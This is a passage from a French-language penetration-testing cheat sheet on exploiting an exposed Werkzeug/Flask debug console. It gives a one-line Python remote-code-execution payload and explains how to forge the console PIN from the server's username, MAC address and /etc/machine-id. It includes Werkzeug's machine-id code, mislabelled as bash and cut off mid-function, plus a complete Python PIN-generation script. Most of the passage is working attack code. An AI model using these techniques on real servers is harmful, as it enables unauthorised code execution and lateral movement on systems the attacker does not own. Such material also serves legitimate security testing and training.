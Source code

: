 ```
http://domain.com/console
```

### RCE :

```python
__import__('os').popen('whoami').read();
```

Si la console est protégée par un PIN, ça se complique :). Il est possible de générer le code PIN si nous avons déjà un accès à la machine (ce qui peut permettre du lateral movement).

### Pour générer le PIN, plusieurs informations sont nécessaires:

- ```username``` qui a initié l'application.
- ``modname`` (flask.app, la plupart du temps).
- ``getattr(mod, '__file__', None)`` le path vers app.py (/usr/local/lib/python3.5/dist-packages/flask/app.py , par exemple).
- ``getattr(app, '__name__', getattr(app.__class__, '__name__'))`` généralement "Flask".
- ``uuid.getnode()`` est l'adresse MAC de l'interface réseau du serveur, sous forme décimale. Pour la trouver : ``/sys/class/net/<device id>/address`` puis la convertir sous forme décimale, par exemple avec python (exemple : ``print(0x5600027a23ac)``)
- ``get_machine_id()`` : trouvable avec ce script bash :

```bash
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
    global _machine_id

    if _machine_id is not None:
        return _machine_id

    def _generate() -> t.Optional[t.Union[str, bytes]]:
        linux = b""

        # machine-id is stable across boots, boot_id is not.
        for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
            try:
                with open(filename, "rb") as f:
                    value = f.readline().strip()
            except OSError:
                continue

            if value:
                linux += value
                break

        # Containers share the same machine id, add some cgroup
        # information. This is used outside containers too but should be
        # relatively stable across boots.
        try:
            with open("/proc/self/cgroup", "rb") as f:
                linux += f.readline().strip().rpartition(b"/")[2]
        except OSError:
            pass

        if linux:
            return linux

        # On OS X, use ioreg to get the computer's serial number.
        try:
```

Puis remplir ce script python avec toutes les informations trouvées :

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'user',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

Une fois exécuté, le script devrait générer un code PIN valide pour l'accès à la console de werkzeug.

> [!Attention] 
> Plusieurs méthodes différentes existent pour trouver ces variables, et ne donnent pas le même résultat final, il peut être nécessaire de tester plusieurs fois. Aussi, la console de debug peut se locker après un certain nombre d'essais, attention !


